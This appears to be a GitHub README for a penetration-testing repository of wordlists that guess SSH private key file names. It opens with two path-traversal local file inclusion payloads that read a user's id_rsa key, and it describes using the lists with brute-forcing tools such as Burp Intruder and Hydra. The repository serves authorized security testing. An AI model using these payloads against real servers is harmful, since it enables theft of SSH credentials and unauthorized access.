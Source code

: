 
## LFI for Lateral Movement? Gain SSH Access?

```
?file=../../../../../../../../home/user/.ssh/id_rsa
?file=../../../../../../../../home/user/.ssh/id_rsa-cert
```


# SSH Private Key Looting Wordlist 🔒🗝️

This repository contains a collection of wordlists to aid in locating or brute-forcing SSH private key file names. These wordlists can be useful for penetration testers, security researchers, and anyone else interested in assessing the security of SSH configurations.

## Wordlist Files 📝

- **ssh-priv-key-loot-common.txt**: Default and common naming conventions for SSH private key files.
- **ssh-priv-key-loot-medium.txt**: Probable file names without backup file extensions.
- **ssh-priv-key-loot-extended.txt**: Probable file names with backup file extensions.
- **ssh-priv-key-loot-\*_w_gui.txt**: Includes file names simulating Ctrl+C and Ctrl+V on servers with a GUI.

## Usage 🚀

These wordlists can be used with tools such as Burp Intruder, Hydra, custom python scripts, or any other bruteforcing tool that supports custom wordlists. They can help expand the scope of your brute-forcing or enumeration efforts when targeting SSH private key files.

## Acknowledgements 🙏

This wordlist repository was inspired by John Hammond in his vlog "[Don't Forget This One Hacking Trick.](https://www.youtube.com/watch?v=2rqb3YSa1SE)" 

## Disclaimer ⚠️

Please use these wordlists responsibly and only on systems you are authorized to test. Unauthorized use is illegal.